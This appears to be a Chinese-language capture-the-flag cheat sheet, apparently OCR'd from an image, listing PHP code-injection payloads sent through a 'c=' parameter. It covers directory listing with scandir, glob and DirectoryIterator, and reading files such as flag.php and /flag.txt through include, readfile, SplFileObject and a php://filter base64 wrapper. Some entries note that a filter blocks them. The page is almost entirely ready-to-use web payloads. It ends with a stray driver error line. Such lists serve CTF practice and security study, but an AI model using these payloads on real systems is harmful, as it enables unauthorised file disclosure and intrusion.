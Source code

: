 

#### php文件扫描函数

```
<?php
// 指定要遍历的目录
$directory = getcwd();
// 创建 FilesystemIterator 对象
$iterator = new FilesystemIterator($directory);

// 遍历目录
foreach ($iterator as $fileinfo) {
    // 打印文件名
    echo "文件名: " . $fileinfo->getFilename() . "<br>";
}
?>

c=print_r(scandir(dirname('FILE')));
c=print_r(scandir(pos(localeconv())));
c=print_r(glob(dirname('FILE')."/*.php"));
c=print_r(glob(pos(localeconv())."/*.php"));

c=$a=scandir("/");foreach ($a as $value) {echo $value . "\n";}
c=echo(implode('----',scandir("/")));
c=var_dump(scandir("/")); 

### var_export 可以替代 var_dump
c=var_export(glob(pos(localeconv())."."));
c=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);
```



#### php读文件函数

``````
c=show_source("flag.php");
c=highlight_file("flag.php");
c=readfile("flag.php"); # ban了
c=readgzfile("/flag.txt");

// include只能在包含非php文件时进行文件读取
c=include("/flag.txt");
c=include_once("/flag.txt");
c=require('/flag.txt');
c=require_once('/flag.txt');

c=var_dump((new SplFileObject("/flag.txt"))->fpassthru());
c=(new SplFileObject("/flag.txt"))->fpassthru();
c=echo json_encode(scandir("/"));


#文件包含+伪协议读取文件
c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=/flag.txt

# fgets读出所有行
c=$handle = fopen('flag.php', 'r');if ($handle === false) {die('Failed to open file');}while (($line = fgets($handle)) !== false) {echo $line;}if(!fclose($handle)){die('Failed to close file');}

# fread()+filesize()
c=$handle = fopen('flag.php', 'r');$contents = fread($handle, filesize('flag.php'));fclose($handle);echo $contents;

# file_get_contents()命令读取
c=$contents = file_get_contents('filename.txt');echo $contents; # ban了
``````

[ERROR]: could not find driver